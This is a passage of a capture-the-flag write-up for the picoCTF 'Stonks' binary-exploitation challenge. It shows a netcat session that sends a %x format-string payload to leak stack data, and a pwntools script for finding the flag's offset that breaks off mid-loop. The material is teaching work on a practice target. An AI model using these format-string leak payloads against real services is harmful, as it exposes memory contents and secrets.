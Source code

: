 With specially crafted input we can leak data from the stack were the flag/api is stored.

### Leak data from the stack 

Lets connect to the server and try to leak some data from the stack
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Buying stonks with token:
940f3b0.804b000.80489c3.f7f1fd80.ffffffff.1.940d160.f7f2d110.f7f1fdc7.0.940e180.1.940f390.940f3b0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79
Portfolio as of Fri Aug 11 17:23:43 UTC 2023


1 shares of ORSS
3 shares of IG
19 shares of BIPC
6 shares of JM
1192 shares of QU
729 shares of KK
Goodbye!
```

It works. We have read values from the stack and printed them as hexadecimal values with the format string specifier `%x`.  
For easier readability I have used a delimiter ('.') in this case. 

### Find the offset to the flag

But where on the stack is the flag stored? How many integers do we need to read from the stack until the flag starts?

Lets utilies [pwntools](https://docs.pwntools.com/en/stable/index.html) to automate this with a `find_offset.py` script
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mercury.picoctf.net'
PORT = 16439
FLAG_START = 'pico'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")
for i in range(1, 25):
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"2) View my portfolio\n", b"1")
    io.sendlineafter(b"What is your API token?\n", f"%{i}$x")
    io.recvuntilS(b"Buying stonks with token:\n")
    out = io.recvline()
    try:
        # Little endian case
        res_le = p32(int(out.decode(), 16), endianness="little").decode()
        if (res_le == FLAG_START):
```